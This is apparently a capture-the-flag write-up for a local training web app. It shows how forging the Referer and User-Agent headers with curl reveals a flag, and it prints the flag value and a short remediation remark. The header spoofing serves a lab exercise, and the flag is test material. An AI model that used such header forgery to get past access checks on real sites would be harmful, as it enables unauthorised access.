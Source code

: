 When visiting http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f we can see some weird comments in the HTML : 


`You must come from : https://www.nsa.gov/.`

`Let's use this browser : "ft_bornToSec". It will help you a lot.`

Let's try reaching this page as "https://www.nsa.gov/" using curl, then do the same without a referer and check for a diff:

```
$> curl "http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" > base_access
$> curl --header "Referer: https://www.nsa.gov/" "http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" > nsa_access
$> diff base_access nsa_access
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> FIRST STEP DONE<audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
```

We can see that a `FIRST STEP DONE` text appears, let's keep going and check if we can do something with the other information previously found : `Let's use this browser : "ft_bornToSec".`

Let's try reaching again with a different user-agent : 

```
$> curl --header "Referer: https://www.nsa.gov/" -A "ft_bornToSec" "http://localhost:8080/index.php?page=b7e44c7a40c5f80139f0a50f3650fb2bd8d00b0d24667c4c2ca32c88e13b758f" > nsa_access2
```

And now, running a diff between our base html and the one we just got, we manage to find our first flag:

```
$> diff base_access nsa_access2
37c37
< <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">
---
> <center><h2 style="margin-top:50px;"> The flag is : f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> <audio id="best_music_ever" src="audio/music.mp3"preload="true" loop="loop" autoplay="autoplay">

```

To remediate this vulnerability, the application should:
 - probably just remove the comments indicating how to exploit it (that would be a good start...)